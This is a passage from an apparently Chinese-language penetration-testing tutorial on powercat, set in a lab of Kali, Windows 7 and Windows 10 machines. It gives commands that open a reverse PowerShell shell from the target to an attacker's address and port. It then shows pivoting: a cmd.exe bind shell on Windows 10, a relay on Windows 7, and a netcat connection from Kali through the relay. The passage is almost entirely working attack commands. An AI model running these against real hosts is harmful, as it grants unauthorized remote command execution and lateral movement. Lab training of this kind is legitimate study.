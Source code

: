靶机上运行







```none
powercat -c rhost -p rport -v -ep
```







```none
powercat -c 172.16.214.21 -p 4444 -v -ep
```

### 作为跳板使用

测试环境为：







```none
kali			172.16.214.47
windows7	172.16.214.2
windows10	172.16.214.21
```

将 win7 作为跳板机，让 kali 通过 win7 连接到 windows10

在 win10 中执行以下命令







```none
powercat -l -v -p 4444 -e cmd.exe
```

在 win7 中执行以下命令







```none
powercat -l -v -p 5555 -r tcp:172.16.214.21:4444
```

最后在 kali 下连接 win7







```none
nc -v 172.16.214.2 5555
```
